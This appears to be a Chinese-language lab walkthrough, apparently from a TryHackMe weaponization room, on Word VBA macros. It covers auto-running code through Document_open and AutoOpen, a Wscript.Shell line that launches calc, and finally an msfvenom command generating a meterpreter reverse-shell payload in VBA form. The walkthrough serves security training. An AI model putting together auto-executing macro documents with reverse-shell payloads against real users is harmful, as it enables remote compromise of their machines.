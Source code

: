 ## Visual Basic for Application （VBA）

VBA代表Visual Basic for Applications，这是Microsoft为Microsoft Word，Excel，PowerPoint等Microsoft应用程序实现的编程语言。VBA 编程允许自动执行用户和 Microsoft Office 应用程序之间几乎所有键盘和鼠标交互的任务。

宏是 Microsoft Office 应用程序，其中包含用称为 Visual Basic for Applications （VBA） 的编程语言编写的嵌入式代码。它用于创建自定义函数，通过创建自动化流程来加快手动任务的速度。VBA的功能之一是访问Windows应用程序编程接口（API）和其他低级功能。

### 让我们开始

现在从“开始”菜单打开Microsoft Word 2016

在宏名称部分中，我们选择将宏命名为 THM。请注意，我们需要从列表 Document1 中的宏中进行选择，最后选择创建。接下来，Microsoft Visual Basic for Application 编辑器显示了我们可以在哪里编写 VBA 代码。让我们尝试显示一个消息框，其中包含以下消息：欢迎来到武器化室！.我们可以使用 MsgBox 函数执行此操作，如下所示：

```vbnet
Sub THM()
  MsgBox ("Welcome to Weaponization Room!")
End Sub
```

最后，按 F5 运行宏或运行→运行子/用户窗体。

现在，为了在打开文档后自动执行VBA代码，我们可以使用内置功能，例如AutoOpen和Document_open。请注意，我们需要指定文档打开后需要运行的函数名称，在本例中为 THM 函数。

```vbnet
Sub Document_open()
hack (a)
End Sub

Sub AutoOpen()
hack (a)
End Sub

Sub hack(a)
'
' hack Macro
'
'
    MsgBox ("hack" + a)
End Sub
```

重要的是要注意，要使宏工作，我们需要将其保存为启用宏的格式，例如.doc和docm。docx也可以

打开它

![在这里插入图片描述](https://img-blog.csdnimg.cn/42ee694127a64fa29f2df5fe32116aa5.png)

```vbnet
CreateObject("Wscript.Shell").Run ("calc")
```

### Reverse shell

	msfvenom -p windows/meterpreter/reverse_tcp lhost=10.14.39.48 lport=8888 -f vba

